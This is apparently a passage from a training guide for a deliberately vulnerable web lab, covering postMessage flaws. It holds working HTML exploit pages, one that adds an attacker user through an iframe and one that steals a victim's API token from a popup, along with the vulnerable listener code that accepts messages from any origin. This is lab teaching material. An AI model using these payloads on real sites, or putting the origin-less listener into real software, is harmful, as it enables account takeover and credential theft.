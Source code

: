 ```html
<html>
<body>
<iframe src="http://localhost:9000/organization" id="victimWebsite" width="100%" height="100%"></iframe>
<script>
  document.addEventListener('readystatechange', () =>{
    victimWebsite.contentWindow.postMessage("<hacker_username>", '*')
  })
</script>
</body>
</html>
```

### Vulnerable Code

**View: /views/organization.ejs**

```
window.addEventListener('message', function (event) {
  var xhr = new XMLHttpRequest();
  xhr.onreadystatechange = function () {
    if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
      document.getElementById("userAddMessage").innerHTML = "User Added";
      loadUsers();
    }
  }
  xhr.open('POST', window.location.origin + '/organization/add-user')
  xhr.withCredentials = true;
  xhr.setRequestHeader('Authorization', '<%=token%>');
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr.send("user=" + event.data);
  })
```

## 12. Information Disclosure using addEventListener

In this exercise you will learn how insecure use of `postMessage` can be used to steal the sensitive information, `/api-token` page has a button to show your API Key, when you click on it, it will open a new popup window which will fetch the user API token and send it to the opener window using postmessage, Since it sends the message to the opener window without specifically specifying the origin, An attacker domain which opens the `/api-token/show` will be able to receive the API token.

### Exploit

Save the following HTML code in an HTML file, host it on your server and send the link to the victim you will see a popup showing the victim API token to further exploit you can send the API token to your attacker server.

```html
<html>
<body>
<script>
  window.open("http://tauheedkhan.com:9000/api-token/show", "popup");
  window.addEventListener("message", function(event){
    alert(event.data.token);
  })
</script>
</body>
</html>
```
